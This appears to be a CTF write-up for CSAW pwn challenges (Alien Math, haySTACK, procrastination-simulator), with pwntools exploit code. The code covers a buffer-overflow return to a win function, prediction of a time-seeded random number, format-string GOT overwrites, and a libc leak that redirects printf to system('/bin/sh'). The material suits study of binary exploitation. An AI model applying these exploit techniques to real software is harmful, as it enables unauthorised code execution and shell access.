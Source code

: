 Table of Contents
=================

   * [Alien math](#alien-math)
   * [haySTACK](#haystack)
   * [procrastination-simulator](#procrastination-simulator)
      * [file_4](#file_4)
      * [file_2](#file_2)
      * [file_1](#file_1)
   * [Cold](#cold)
   * [word_games](#word_games)

Sorry for my bad english !!
## Alien math
```
Alien Math
60
Brush off your Flirbgarple textbooks!

nc pwn.chal.csaw.io 5004
```
![image](https://user-images.githubusercontent.com/87422359/133059630-36a26841-4747-4ec2-8b66-33a8b6ca0365.png)
![image](https://user-images.githubusercontent.com/87422359/133059840-163d6577-05db-47ce-af83-eb8601f5fc55.png)
![image](https://user-images.githubusercontent.com/87422359/133060090-14b3f5c4-76ad-46f0-9c3c-9235d4531789.png)
there are a BoF bug and a function give us the flag, just return to it.
<br />
payload:
<br />
```python
print_flag = 0x4014FB
r.sendlineafter("salwzoblrs", 'a'*0x18 + p64(print_flag))
```
## haySTACK
![image](https://user-images.githubusercontent.com/87422359/133061463-df45127b-c6df-4a61-9bc8-19277783455a.png)
```c
unsigned __int64 __fastcall sub_1273(__int64 a1)
{
  int i; // [rsp+14h] [rbp-3Ch]
  int v3; // [rsp+18h] [rbp-38h]
  int v4; // [rsp+1Ch] [rbp-34h]
  char s[8]; // [rsp+20h] [rbp-30h] BYREF
  __int64 v6; // [rsp+28h] [rbp-28h]
  __int64 v7; // [rsp+30h] [rbp-20h]
  __int64 v8; // [rsp+38h] [rbp-18h]
  unsigned __int64 v9; // [rsp+48h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  v3 = random();
  *(4LL * v3 + a1) = 4919;
  *s = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  for ( i = 0; i <= 2; ++i )
  {
    fwrite("Which haystack do you want to check?\n", 1uLL, 0x25uLL, stdout);
    fgets(s, 32, stdin);
    v4 = atoi(s);
    if ( v4 <= 0x100000 )
    {
      if ( v4 == v3 )
      {
        printf("Hey you found a needle! And its number is 0x%08x! That's it!\n", *(4LL * v4 + a1));
        win();
      }
      else
      {
        printf("Hey, you found a needle, but it's number is 0x%08x. I don't like that one\n", *(4LL * v4 + a1));
        if ( i )
        {
          if ( i == 1 )
            puts("Did I mention I'm in a hurry? I need you to find it on your next guess");
        }
        else
        {
          puts("Shoot, I forgot to tell you that I hid a needle in every stack. But I only have one favorite needle");
        }
      }
    }
    else
    {
      fwrite("I don't have that many haystacks!\n", 1uLL, 0x22uLL, stdout);
    }
    if ( i == 2 )
    {
      puts("I'm out of time. Thanks for trying...");
      return v9 - __readfsqword(0x28u);
    }
    puts("Let's try again!");
  }
  return v9 - __readfsqword(0x28u);
}
```
we will got flag if out input equal to the random number `v3`
<br />
payload:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(int argc,char** argv) {
	int result;
	srand(time(NULL) + 2);
	result = rand() % 0x100000;
	printf("%d\n", result);
}
```
```python
seed = int(time())
process = subprocess.Popen('./a.out', stdout=subprocess.PIPE)
rd = process.stdout.readline().rstrip()
r.sendline(rd)
```
## procrastination-simulator
```
procrastination-simulator
point: 430
Oh noes! I partied all weekend and now it's an hour before the CTF ends and I have school deadlines tonight too. Can you help me write 60 reports and pwn 50 challenges by Sunday afternoon? nc auto-pwn.chal.csaw.io 11001 with password cd80d3cd8a479a18bbc9652f3631c61c
```
`nc auto-pwn.chal.csaw.io 11001` then enter the password, we get 
the binary like this:
![given_binary](https://user-images.githubusercontent.com/87422359/133044852-ecc1638d-c82f-4e11-8d92-853e5ead68f6.png)
<br />
we write it to a file then convert it to binary by `xxd -r`<br />
When we pwned and got shell, there was a message on the server give
us another address, port, password. <br />
the binaries are changed 3 times(at port 16, 32, 46), we 
need to pwn all them to get the flag.
<br />
### file_4
![image](https://user-images.githubusercontent.com/87422359/133046641-66cd8285-9bfe-43e3-b136-dd8d0048f8c0.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046725-49740c3c-6793-4e24-b3c3-e9ff5ca6392c.png)
<br />
![image](https://user-images.githubusercontent.com/87422359/133046834-aa56ed9a-f9d8-405b-8413-418d22211268.png)
<br />
there are a fsb, and function to get shell.
<br />
what we need to do is overwrite `win()`'s address to `put's got`.
<br />
payload:
<br />
```python
payload  = 'aa'
payload += p32(e.got["exit"])
payload += '%' + str((e.sym['win'] & 0xffff) - 6) + 'd%6$hn'
## send password
r.sendlineafter("password", "cd80d3cd8a479a18bbc9652f3631c61c")
r.sendlineafter('generate a report', payload)
```
![image](https://user-images.githubusercontent.com/87422359/133050190-6ddfbe51-010a-45f7-9050-3f643c7d9c16.png)
### file_2
![image](https://user-images.githubusercontent.com/87422359/133050630-44a7fde5-2f7e-4564-aa28-1c4c01472dd4.png)
<br />
we still have fsb but there is no win function this time.
<br />
![image](https://user-images.githubusercontent.com/87422359/133051357-b5211b7d-7eea-44a1-b9e1-7767891d97c8.png)
<br />
but there is a `/bin/sh` in the binary so i decide to dive into the binary
and i got this
<br />
![image](https://user-images.githubusercontent.com/87422359/133052191-8987d866-8f9f-48fe-84b0-45d96c346765.png)
<br />
same way, but `0x401534` insteal of `win()`'s address.
### file_1
![image](https://user-images.githubusercontent.com/87422359/133052449-5108e99f-145f-4eb2-9523-4c3c1c2b351a.png)
<br />
this time we got 3 times fsb but `PIE enable`, what we
need to do is leak `libc base`, leak `code base` then overwrite `system`'s address
to `printf got`, then enter `/bin/sh`, programe will run `printf('/bin/sh')`
but printf is overwritten so we get `system('/bin/sh')`
<br />
payload:
<br />
```python
## stage 1
payload  = ''
payload += '%45$p %7$p'
p.sendlineafter('> ', payload)

## leaking
p.recvuntil("ntents of Report 1:\n")
leak = int(p.recvuntil(' ').strip(), 16)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
log.info("leak :%s:" % hex(leak))
libc.sym['win'] = one[0]
libc.address = leak - 0x0270b3
log.info("base :%s:" % hex(libc.address))
log.info("win :%s:" % hex(libc.sym['win']))
leak1 = int(p.recvline().strip(), 16) - 156
log.info("target :%s:" % hex(leak1))

## stage 2
payload  = ''
payload += '%' + str(libc.sym["system"] >> 16 & 0xff) + 'd%13$hhn'
payload += '%' + str((libc.sym["system"] & 0xffff) - (libc.sym["system"] >> 16 & 0xff)) + 'd%12$hn'
payload  = payload.ljust(32,'a')
payload += p64(leak1)
payload += p64(leak1 + 2)
p.sendlineafter('s batch!!', payload)

## stage 3
payload  = '/bin/sh'
sleep(1)
p.sendline(payload)
```
## Cold
## word_games
